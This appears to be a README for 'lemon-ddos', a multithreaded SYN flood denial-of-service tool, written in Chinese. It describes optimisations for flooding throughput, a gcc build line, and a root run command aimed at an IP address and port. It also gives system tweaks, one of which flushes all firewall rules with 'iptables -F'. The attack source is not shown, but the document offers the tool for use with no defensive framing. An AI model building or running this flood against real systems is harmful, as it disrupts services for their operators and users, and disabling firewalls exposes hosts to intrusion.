 # lemon-ddos
性能优化亮点：
1.每个线程独立资源：

 独立套接字
 独立随机数种子
 独立数据包缓冲区
 独立统计计数器
2.网络优化：

 100MB 发送缓冲区 (#define SOCKET_BUFFER_SIZE (100 * 1024 * 1024))
 非阻塞 I/O 模式
 TCP_NODELAY 选项禁用 Nagle 算法
3.CPU 优化：
 线程绑定到特定 CPU 核心
 高性能随机数生成器 (比标准 rand() 快 10 倍)
 预计算数据包长度减少循环开销
4.内存优化：
 栈上固定缓冲区用于校验和计算
 预生成随机负载避免重复计算
# 编译指令：
```
gcc -O3 -march=native -mtune=native -pthread -o syn_flood syn_flood.c
```
# 运行建议：
## 以 root 权限运行：
```
sudo ./syn_flood 192.168.1.100 80 16 60 100 eth0
```
## 系统优化命令：
```
# 增加网络缓冲区
sudo sysctl -w net.core.wmem_max=12582912
sudo sysctl -w net.core.rmem_max=12582912

# 增加最大打开文件数
ulimit -n 1000000

# 禁用防火墙
sudo iptables -F
```
